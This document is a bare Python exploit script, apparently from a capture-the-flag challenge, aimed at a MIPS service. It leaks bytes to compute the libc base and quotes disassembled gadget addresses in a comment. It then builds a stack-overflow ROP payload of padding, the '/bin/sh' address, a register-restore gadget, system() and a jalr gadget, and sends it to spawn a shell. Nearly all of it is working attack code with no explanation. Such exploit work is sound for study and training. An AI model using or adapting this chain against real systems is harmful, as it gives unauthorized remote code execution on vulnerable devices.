 ```python
ru('Input package: ')
sl('Administrator')
ru('Input package: ')
sl('2')
ru('Response package: ')
l4 = 0x7f
l3 = u8(r(1))
l2 = ((libc.sym['read']&0xff00)>>8)-0x70
l1 = 0xa4
libc_base = (l1 ^ (l2<<8) ^ (l3<<16) ^ (l4<<24))-libc.sym['read']
su('libc_base',libc_base)
'''
.text:0011ACD8
.text:0011ACD8 var_38          = -0x38
.text:0011ACD8 var_30          = -0x30
.text:0011ACD8 var_28          = -0x28
.text:0011ACD8 var_24          = -0x24
.text:0011ACD8 var_20          = -0x20
.text:0011ACD8 var_1C          = -0x1C
.text:0011ACD8 var_18          = -0x18
.text:0011ACD8 var_14          = -0x14
.text:0011ACD8 var_10          = -0x10
.text:0011ACD8 var_C           = -0xC
.text:0011ACD8 var_8           = -8
.text:0011ACD8 var_4           = -4
.text:0011ACD8 var_s0          =  0
.text:0011ACD8 var_s4          =  4
.text:0011ACD8 var_s8          =  8
.text:0011ACD8 var_sC          =  0xC
.text:0011ACD8 var_s10         =  0x10
.text:0011ACD8 var_s14         =  0x14
.text:0011ACD8 var_s18         =  0x18
.text:0011ACD8 var_s1C         =  0x1C
.text:0011ACD8 var_s20         =  0x20
.text:0011ACD8 var_s24         =  0x24

.text:0011B170                 move    \$a0, \$fp
.text:0011B174
.text:0011B174 loc_11B174:                              # CODE XREF: sub_11ACD8:loc_11AD88↑j
.text:0011B174                                          # sub_11ACD8+B8↑j ...
.text:0011B174                 lw      \$ra, 0x48+var_s24(\$sp)
.text:0011B178                 lw      \$v0, 0x48+var_30(\$sp)
.text:0011B17C                 lw      \$fp, 0x48+var_s20(\$sp)
.text:0011B180                 lw      \$s7, 0x48+var_s1C(\$sp)
.text:0011B184                 lw      \$s6, 0x48+var_s18(\$sp)
.text:0011B188                 lw      \$s5, 0x48+var_s14(\$sp)
.text:0011B18C                 lw      \$s4, 0x48+var_s10(\$sp)
.text:0011B190                 lw      \$s3, 0x48+var_sC(\$sp)
.text:0011B194                 lw      \$s2, 0x48+var_s8(\$sp)
.text:0011B198                 lw      \$s1, 0x48+var_s4(\$sp)
.text:0011B19C                 lw      \$s0, 0x48+var_s0(\$sp)
.text:0011B1A0                 jr      \$ra
.text:0011B1A4                 addiu   \$sp, 0x70

.text:00134E80                 move    \$t9, \$fp
.text:00134E84                 jalr    \$t9
.text:00134E88                 move    \$at, \$at
'''
pay = b'a'*0x1f8+p32(libc.search('/bin/sh\0').next()+libc_base)+p32(0x0011B170+libc_base)+b'a'*0x68+p32(libc_base+libc.sym['system'])+p32(0x00134E80+libc_base)#
ru('Input package: ')
sl(pay)
ru('Input package: ')
```